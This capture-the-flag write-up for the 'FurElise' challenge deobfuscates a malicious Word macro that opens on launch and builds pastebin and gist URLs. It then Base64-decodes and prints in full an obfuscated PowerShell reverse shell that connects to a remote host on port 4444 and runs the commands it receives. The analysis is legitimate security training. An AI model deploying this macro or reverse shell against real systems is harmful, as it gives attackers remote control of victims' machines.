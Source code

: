 # FurElise

## Solution

The challenge requires us to download a zip file containing a text file <a href="images/heartbroken.txt">heartbroken.txt</a>. The file contains some Powershell commands along with many lines of 'FurElise'.
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
                 [REDACTED]
```
To remove the unnecessary lines, we can use ```uniq``` command in Linux rather than manually removing the ```FurElise```. The output will be stored in ```new.txt```
```
cat heartbroken.txt | uniq > new.txt
```
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	Replace(luY2lkZW50IG,"&","")
	Replace(luZyB0aGF0IG,"&","")
	Replace(VsZCBkZWNvZG,"&","")
	Replace(N0b3JzLCBjb3,"&","")
```
However, we can see that & makes the command hard to understand. So, we need to remove & from the text file.
```
cat new.txt | sed 's/&//g'
```

```
Sub Document_Open()
        Set dCBkaW1pbm = CreateObject("WScript.Shell")
        pbmcgYXQgY3Jvc = "https://"
        CBtYXR0ZXJucy = "pastebin.com"
        4gb3ZlciB3ZSB = "/raw/Kh4VyUYc"
        ''''''FürElise''''''FürElise
        Replace(luY2lkZW50IG,"","")
        Replace(luZyB0aGF0IG,"","")
        Replace(VsZCBkZWNvZG,"","")
        Replace(N0b3JzLCBjb3,"","")
        Replace(BkZWZpbmVkIH,"","")
        Replace(4gY29tcGxleC,"","")
        Replace(pbmcgYXQgY3Jvc,"","")
        Replace(CBtYXR0ZXJucy,"","")
        Replace(4gb3ZlciB3ZSB,"","")
        dCBkaW1pbm.Exec("whoami")
        ''''''FürElise''''''FürElise
        luY2lkZW50IG = “https://gist.githubusercontent.com/zachwong02”
        luZyB0aGF0IG = “/5a8e7d365c6d9b649b12be3c890c8cb4”
        VsZCBkZWNvZG = “/raw”
        N0b3JzLCBjb3 = “/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9”
        BkZWZpbmVkIH = “/gistfile1”
```

Now, we can clearly see two links that we can access. 
https://pastebin.com/raw/Kh4VyUYc and https://gist.githubusercontent.com/zachwong02/5a8e7d365c6d9b649b12be3c890c8cb4/raw/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9/gistfile1.txt

### Flag 1/2
From the first link we get the first part of the flag
```
ABOH23{d!ff1cU17_s0Ng
```

From the second link, we get encrypted lines that also mention Powershell. By using CyberChef, we can conclude that it is Base64 encode. You can also copy the encrypted lines and use Base64 decode command in Linux.
```
cat flag2.txt | base64 -d
```

```
if (-not(&($([char](99+84-99)+[char](67*101/67)+[char](0+115-0)+[char](0+116-0)+[char](16+45-16)+[char](114+80-114)+[char](96*97/96)+[char](0+116-0)+[char](0+104-0))) -Path ($('$'+'e'+'n'+'v'+':'+'U'+'S'+'E'+'R'+'P'+'R'+'O'+'F'+'I'+'L'+'E') + ([string]::join('', ( (92,68,101,115,107,116,111,112,92,77,117,115,105,99) |%{ ( [char][int] $_)})) | % {$_})) -PathType (([string]::join('', ( (76,101,97,102) |%{ ( [char][int] $_)})) | % {$_})))){
        & (("jDkavXf-p98OYShtMg4A2cN5xPIHeF1zyElTnwZmRbLKQGisJC0UWoBVduqr637")[37,59,46,15,28,7,14,53,47,15] -join '') (('d'+'o'+'n'+'t'+' '+'e'+'x'+'e'+'c'+'u'+'t'+'e'+' '+'t'+'h'+'e'+' '+'s'+'c'+'r'+'i'+'p'+'t'+'.'+'.'+'.'+' '+'a'+'m'+'a'+'t'+'e'+'u'+'r'+' '+'m'+'o'+'m'+'e'+'n'+'t'+'.'+'.'+'.'))
        return
}
$LHOST = $([char](36*36/36)+[char](76+40-76)+[char](0+49-0)+[char](27*43/27)+[char](0+49-0)+[char](27*43/27)+[char](86+48-86)+[char](0+45-0)+[char](0+49-0)+[char](0+41-0)+[char](0+99-0)+[char](98+97-98)+[char](52+116-52)+[char](7*101/7)+[char](0+62-0)+[char](0+57-0)+[char](0+50-0)+[char](0+46-0)+[char](43*49/43)+[char](0+54-0)+[char](116+56-116)+[char](37*46/37)+[char](86*50/86)+[char](94*50/94)+[char](0+49-0)+[char](76+46-76)+[char](0+49-0)+[char](74+52-74)+[char](96*56/96));
$LPORT = ($(4444));
$TCPClient = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) Net.Sockets.TCPClient($LHOST, $LPORT);
$NetworkStream = $TCPClient.GetStream();
$StreamReader = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamReader($NetworkStream);
$StreamWriter = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamWriter($NetworkStream);
$StreamWriter.AutoFlush = $true;
$Buffer = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) System.Byte[] $($(1024));
while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length);
$c2 = $([char](27*104/27)+[char](60+116-60)+[char](57*116/57)+[char](67*112/67)+[char](18+115-18)+[char](28+58-28)+[char](76*47/76)+[char](50*47/50)+[char](83*112/83)+[char](89*97/89)+[char](0+115-0)+[char](23*116/23)+[char](7*101/7)+[char](78+98-78)+[char](76*105/76)+[char](86+110-86)+[char](0+46-0)+[char](86*99/86)+[char](52*111/52)+[char](100+109-100)+[char](10*47/10)+[char](0+114-0)+[char](94+97-94)+[char](95+119-95)+[char](25*47/25)+[char](0+74-0)+[char](59*67/59)+[char](31+103-31)+[char](0+76-0)+[char](56+122-56)+[char](57+52-57)+[char](0+102-0)+[char](40*49/40));
$Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) };
if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_}) ($Code) 2>&1 } catch { $_ };
$StreamWriter.Write($(($('$'+'O'+'u'+'t'+'p'+'u'+'t'+'`'+'n'))));
$Code = $null } };
$TCPClient.Close();
$NetworkStream.Close();
$StreamReader.Close();
```
By pasting the command inside Powershell, we can know the value of each variable. Variable ```c2 ``` contains the link for second flag

<p align="center">
  <img width="80%" height="300" src="images/Capture1.PNG">
</p>

https://pastebin.com/raw/JCgLz4f1

### Flag 2/2
```
_FROm_hEaRtBrE4K}
```

### Complete Flag
The flag for this challenge is ```ABOH23{d!ff1cU17_s0Ng_FROm_hEaRtBrE4K}```
